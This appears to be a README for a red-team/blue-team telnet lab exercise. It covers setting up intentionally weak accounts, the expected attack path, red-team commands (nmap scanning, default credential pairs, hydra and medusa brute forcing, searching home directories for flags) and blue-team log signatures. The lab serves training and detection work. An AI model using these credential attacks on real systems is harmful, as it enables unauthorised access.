 ### Manual Setup Steps
1. Install telnet server: `sudo apt-get install telnetd xinetd`
2. Create user accounts with weak passwords
3. Configure xinetd for telnet service
4. Create flag files in user directories
5. Start xinetd service

## Attack Methodology

### Expected Attack Path
1. **Port Scanning**: Discover Telnet service on port 23
2. **Banner Grabbing**: Read system banner for information
3. **Credential Testing**: Try common username/password combinations
4. **Authentication**: Login with discovered credentials
5. **Flag Discovery**: Navigate user directories and find flags

### Key Commands Red Team Will Use
```bash
# Port scanning
nmap -sV -p 23 <target_ip>

# Banner grabbing
nc <target_ip> 23
telnet <target_ip>

# Credential attacks
telnet <target_ip>
# Try combinations:
# admin/admin
# guest/guest
# operator/password
# service/service123
# root/root, admin/123456, etc.

# Automated credential testing
hydra -L users.txt -P passwords.txt telnet://<target_ip>
medusa -h <target_ip> -U users.txt -P passwords.txt -M telnet

# File discovery after login
ls -la
cat flag.txt
find / -name "*flag*" 2>/dev/null
cat /home/*/flag.txt 2>/dev/null
```

## Blue Team Detection Signatures

### Log Patterns to Monitor
```
# Auth logs (/var/log/auth.log)
- Telnet login attempts
- Multiple failed authentications
- Successful logins from unusual sources
- Clear-text password transmission

# Xinetd logs (/var/log/syslog)
- Telnet service connections
- Connection frequency patterns
- Source IP analysis
```
